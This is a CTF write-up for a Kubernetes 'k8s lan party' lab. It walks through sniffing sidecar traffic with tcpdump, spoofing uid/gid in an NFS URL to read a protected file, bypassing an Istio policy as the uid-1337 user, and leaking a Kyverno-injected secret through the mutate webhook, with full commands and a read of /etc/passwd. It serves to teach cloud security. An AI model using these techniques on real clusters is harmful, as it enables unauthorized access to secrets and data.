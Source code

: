 ```yaml
---
title: k8s lan party
author: ch3n9w
date: 2024-03-15 07:34:46
categories: CTF
cover:
  image: 2024-03-26-21-02-36.png
---
```


Long time no CTF~~

## RECON

Just check the environment related to K8s using `env` and reconnoiter internal service using `dnscan`

![recon](recon.png)

This blog is good written [link](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html)

## Finding Neighbours

According to the description, the sidecar container of current pod is sending some information (possibly flag) to remote server. So, the first step is digging the remote server like what we do in the first challenge, which leads me to `reporting-service.k8s-lan-party.svc.cluster.local`.

As we all know, all containers within same pod share one network namespace, which means we can sniff the traffic from our current container.

```sh
tcpdump -i any host reporting-service.k8s-lan-party.svc.cluster.local and tcp -w traffic.pcap
```

and the flag was in the `traffic.pcap`

![neighbours](neighbours.png)

## DATA LEAKAGE

> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based.

At first glance, I thought the data storage is `nfs`, and found the existence of `/efs/flag.txt`. However, there is no enough permission to read it, while I failed to mount the remote storage to local host, so I stopped and didn't have any progress until the end of the game.


By executing `mount`, here we got:

```
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.30.72,local_lock=none,addr=192.168.124.98)
```

Since the remote storage use `nfs4`, we should specify the version when listing it.

```sh
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4
```

try to cat the remote `flag.txt`, but there is no enough permission.

```sh
nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```

![](2024-03-26-20-45-47.png)

However, according to the libnfs document, we could spoof uid and gid by adding parameters to the nfs url and get elevated privileges.

![](2024-03-26-20-52-11.png)

```sh
nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```

![](2024-03-26-20-51-30.png)

## The Beauty and The Ist

> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

The given policy is 

```yml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

The policy in this challenge block `GET` and `POST` requests from namespace `k8s-lan-party`
Find Istio service

```sh
dnscan -subnet 10.100.0.1/16
```

![](2024-03-26-21-10-53.png)

The request to this address will be denied. However, there seems to be user that can bypass the Istio's IPTables rules from hist#2.

`cat /etc/passwd | grep 1337`

And we got user `istio`, According to [ncc report](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) and [Istio Iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables), **the 1337 uid is used to distinguish between traffic originating from proxy vs the applications**, which means we can bypass the policy restriction by switching to user `istio` and send requests, which would be recognized as traffic from istio sidercar proxy.

![](2024-03-26-21-18-32.png)

## Who will guard the guardians?

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

The given policy:

```yml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

Kyverno is designed for policy management. The policy will inject flag into Pod resource created under `sensitive-ns`.

According to GPT, `AdmissionReview` is a kind of API resource used in admission control process. K8s supports two types of admission control webhooks to handle `AdmissionReview`: `ValidatingAdmissionWebhook` and `MutatingAdmissionWebhook`, the latter is called before validating object correctness, it can modify objects in the request, while the former is called after all `MutatingAdmissionWebhook` to check the state of the object for validity but does not modify it.

Obviously, the policy facilitates MutatingAdmissionWebhook to modify object.

Reconnoiter services first:

```
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
```

What if we can utilize the MutatingAdmissionWebhook to steal the secret since we can access to `https://kyverno-svc.kyverno.svc.cluster.local/mutate`? The AdmissionReview requests to this api will be responsed by object modified by the kyverno, which makes a lot sense.

use the following resource to generate `AdmissionReview`

```yml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl
```

```sh
./kube-review create pod.yaml > pod.json
curl -k -X POST \
https://kyverno-svc.kyverno.svc.cluster.local/mutate \
  -H 'content-type: application/json' \
  --data-binary "@pod.json"
```

We got:

```json
{"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"curl-flag","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"kube-review","uid":"ee8332cb-afa6-412e-b60a-641f23d28980"},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"name":"curl-flag","namespace":"sensitive-ns","creationTimestamp":null},"spec":{"containers":[{"name":"curl-container","image":"curlimages/curl","resources":{}}]},"status":{}},"oldObject":null,"dryRun":true,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
```

![](2024-03-26-22-26-59.png)
